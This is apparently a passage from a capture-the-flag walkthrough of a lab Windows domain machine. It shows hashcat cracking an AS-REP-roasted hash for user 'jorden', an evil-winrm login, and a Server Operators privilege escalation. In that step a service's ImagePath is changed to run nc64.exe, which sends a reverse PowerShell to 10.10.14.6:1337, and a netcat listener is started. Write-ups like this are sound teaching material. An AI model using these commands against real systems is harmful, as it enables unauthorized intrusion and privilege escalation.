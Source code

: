 <figure><img src="../../.gitbook/assets/multi_asreproasting.png" alt=""><figcaption><p>Figure 30: ASREPRoasting jorden!</p></figcaption></figure>

After cracking the hash, we can jump into the box as `jorden`.

{% tabs %}
{% tab title="1. Crack" %}
```bash
hashcat -m18200 asreproastable_users.txt /usr/share/wordlists/rockyou.txt
```
{% endtab %}

{% tab title="2. WinRM" %}
```bash
evil-winrm -i 10.10.10.179 -u jorden -p $(cat jorden_pass)
```
{% endtab %}
{% endtabs %}

## Server Operators

Members of the [`Server Operators`](../../tl-dr/active-directory/groups/server-operators.md) group have the ability to manage services which can be exploited by changing the `ImagePath` of any privileged service and make it execute a reverse shell instead (Figure 31). We can achieve that using the already uploaded `nc64.exe`.

{% tabs %}
{% tab title="Modify ImagePath" %}
{% code overflow="wrap" %}
```powershell
# change ImagePath
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\spool\drivers\color\nc64.exe -e powershell.exe 10.10.14.6 1337" /f
```
{% endcode %}
{% endtab %}

{% tab title="Confirm Change" %}
```powershell
reg query "HKLM\System\CurrentControlSet\services\wuauserv"
```
{% endtab %}

{% tab title="Listen" %}
```bash
nc -lvnp 1337
```
{% endtab %}
